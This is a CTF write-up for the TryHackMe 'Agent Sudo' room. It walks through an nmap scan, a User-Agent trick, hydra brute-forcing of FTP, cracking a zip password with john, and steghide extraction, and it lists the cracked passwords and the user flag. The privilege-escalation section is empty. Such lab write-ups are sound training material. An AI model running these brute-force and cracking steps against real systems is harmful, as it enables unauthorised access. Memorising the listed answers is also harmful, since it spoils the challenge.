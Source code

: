 ```yaml
---
description: 'https://tryhackme.com/room/agentsudoctf'
---
```


# Agent Sudo

## INIT

```text
export agentsudo=10.10.172.140
ping $agentsudo

echo "10.10.172.140 agentsudo.thm" >> /etc/hosts
```

## Task 2 Enumerate

```text
nmap -v -sC -sV -O -T5 -p1-65535 agentsudo.thm
```

### How many open ports?

![](../.gitbook/assets/image%20%28435%29.png)

{% hint style="success" %}
3
{% endhint %}

### How you redirect yourself to a secret page?

![](../.gitbook/assets/image%20%28424%29.png)

> Switch User-Agent to C

![](../.gitbook/assets/image%20%28391%29.png)

{% hint style="success" %}
User-Agent
{% endhint %}

### What is the agent name?

{% hint style="success" %}
Chris
{% endhint %}

## Task 3 Hash cracking and brute-force

### FTP password

```text
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://agentsudo.thm -t 50
```

![](../.gitbook/assets/image%20%28395%29.png)

{% hint style="success" %}
crystal
{% endhint %}

### Zip file password 

![](../.gitbook/assets/image%20%28384%29.png)

```text
binwalk -e cutie.png

zip2john 8702.zip > ziphash.txt
john ziphash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![](../.gitbook/assets/image%20%28380%29.png)

{% hint style="success" %}
alien
{% endhint %}

### steg password 

```text
steghide extract -sf cute-alien.jpg
```

![](../.gitbook/assets/image%20%28410%29.png)

{% hint style="success" %}
Area51
{% endhint %}

### Who is the other agent \(in full name\)? 

{% hint style="success" %}
james
{% endhint %}

### SSH password

{% hint style="success" %}
hackerrules!
{% endhint %}

## Task 4 Capture the user flag

### What is the user flag?

![](../.gitbook/assets/image%20%28393%29.png)

{% hint style="success" %}
b03d975e8c92a7c04146cfa7a5a313c7
{% endhint %}

### What is the incident of the photo called?

```text
scp james@agentsudo.thm:/home/james/Alien_autospy.jpg .
```

![](../.gitbook/assets/image%20%28396%29.png)

{% hint style="success" %}
Roswell Alien Autopsy
{% endhint %}

## Task 5 Privilege escalation



